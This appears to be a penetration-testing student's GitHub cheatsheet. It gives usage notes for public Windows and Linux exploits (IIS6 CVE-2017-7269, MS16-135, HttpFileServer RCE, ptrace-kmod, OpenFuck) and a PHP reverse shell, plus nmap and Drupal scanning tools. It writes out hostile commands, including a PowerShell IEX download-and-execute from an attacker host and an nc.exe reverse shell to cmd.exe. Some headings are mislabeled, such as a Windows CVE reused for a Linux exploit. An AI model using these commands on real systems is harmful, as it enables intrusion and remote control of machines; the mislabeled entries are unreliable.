 # Exploits/Tools/Cheatsheets
 
### Windows Exploits

<details><summary>CVE-2017-7269</summary>
<p>
source: https://raw.githubusercontent.com/g0rx/iis6-exploit-2017-CVE-2017-7269/master/iis6%20reverse%20shell

```python
python exploit.py <ip> <port> <attacking-ip> <attacking-port>
```

</p>
</details>


<details><summary>MS16-135 win23k</summary>
<p>
source: https://github.com/EmpireProject/Empire/raw/master/data/module_source/privesc/Invoke-MS16135.ps1


1) Edit ps script at the end of the content to include the following command for executing exploit to trigger nishang reverse powershell (https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) which is renamed as `shell.ps1`
```powershell
Invoke-MS16032 -Command "IEX (New-Object Net.WebClient).downloadString('http://10.10.14.32/shell.ps1')"
```

2) Host this file in webserver in your kali machine, you should also host tcp reverse named 'shell.ps1'

3) In victim machine, run command :
```powershell
IEX (New-Object Net.WebClient).downloadString('http://10.10.14.32/Invoke-MS16135.ps1')
```



</p>
</details>

<details><summary>MS14-058 HttpFileServer 2.3.x RCE</summary>
<p>
source: https://www.exploit-db.com/exploits/37064
 
Upload nc.exe into victim machine and performs a reverse shell using nc.exe

```python
    #change these to your webserver for uploading nc.exe
    ip_addr = "192.168.1.20" 
    local_port = "80" 
    #file will be uploaded to and run from C:\Users\Public, change ip and port here to catch your reverse shell
    vbs3 = "C%3A%5CUsers%5CPublic%5Cnc.exe%20192.168.1.10%20443%20-e%20cmd.exe"
```
</p>
</details>


<details><summary>MS08-067 Python Remote Exploit</summary>
<p>
source: https://www.exploit-db.com/exploits/40279
edit `shellcode` variable with payload and adjusts NOPS to fit it

</p>
</details>



### Linux Exploits
<details><summary>CVE-2017-7269</summary>
<p>
source: `searchsploit -m exploits/linux/local/18411.c`

If you encountered compilation errors like:
```c
Compilation errors like ' error: ‘CLONE_VM’ undeclared (first use in this function); did you mean ‘CLNEXT’'
```

fix by adding the following above code:
```c
#define _GNU_SOURCE     
#include <sched.h>
```

To Compile:
```bash
gcc 18411.c -o exploit
```


<details><summary>Mod SSL 2.8.7 OpenSSL Exploit (openfartV2.c)</summary>
<p>
source: https://www.exploit-db.com/exploits/764
commented out `#COMMAND2` variable out to download. Can be used seperately with ptrace-kmod for PrivEsc.

Usage:
1. compile code
`gcc -o openfuck openfuckV2.c -lcrypto`
_if you encounter missing ld error while compiling at victim machine, try checking PATH and make sure it is pointing to the 'ld' file_

2. In your ptrace-kmod.c directory start webserver
`python -m SimpleHTTPServer 80`
</p>
</details>

</p>
</details>


<details><summary>Linux Kernel 2.2-4 PrivEsc (ptrace-kmod)</summary>
<p>
source: https://www.exploit-db.com/exploits/3

Works for 2.2.x and 2.4.x kernels.
```c
// include <linux/user.h> <---remove this
// add below 
#include <sys/user.h>
#include <sys/reg.h>
```
</p>
</details>



### Other Exploits
<details><summary>PHP Reverse Shell (pentest monkey)</summary>
<p>
source: http://pentestmonkey.net/tools/web-shells/php-reverse-shell
Works like a charm in linux php LFI situations better than `system('<reverse shell bash code>');`
1. modify code
```c
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
```
2. start listener to catch reverse shell
3. upload and run script
</p>
</details>


### Tools
<details><summary>Onetwopunch - wrapper for unicorn and nmap scan</summary>
<p>
source: https://raw.githubusercontent.com/superkojiman/onetwopunch/master/onetwopunch.sh
 
Scan for port using nicornscan (very fast) and chain it with nmap vuln nse script scan
1. ping sweep for online hosts into list
`nmap -v -sn 10.11.1-254 -oG all-hosts.txt`
`grep Up all-hosts.txt > online.hosts.txt`

2. download onetwopunch script
`wget https://raw.githubusercontent.com/superkojiman/onetwopunch/master/onetwopunch.sh`
 
3. run script with nmap -sV option
`./scripts/onetwopunch.sh -t online-hosts.txt -p all -i tap0 -n -sV`
 
4. Once complete, navigate to output folder "ndir". Use command to formats all .xml output to html
`for x in $(ls *.xml); do filename=$(echo $x | sed 's/xml/html/') && xsltproc $x -o $filename; done`
`wget https://raw.githubusercontent.com/superkojiman/onetwopunch/master/onetwopunch.sh`
`./scripts/onetwopunch.sh -t online-hosts.txt -p all -i tap0 -n -sV`

5. Navigate to output folder "ndir" and formats all .xml output to html
`for x in $(ls *.xml); do filename=$(echo $x | sed 's/xml/html/') && xsltproc $x -o $filename; done`
</p>
</details>

<details><summary>Droopescan - drupal scanner</summary>
<p>
source: https://github.com/droope/droopescan
 
```
git clone https://github.com/droope/droopescan.git
cd droopescan
pip install -r requirements.txt
droopescan scan drupal -u http://10.11.1.49
```
</p>
</details>

<details><summary>Samba Checker - checks for samba version</summary>
<p>

Checks Samba version as enum4linux messed up?
THanks fellow student OS-40285/rewardone

```bash
./samba_checker.sh <ipaddress> <port>
```
</p>

</details>



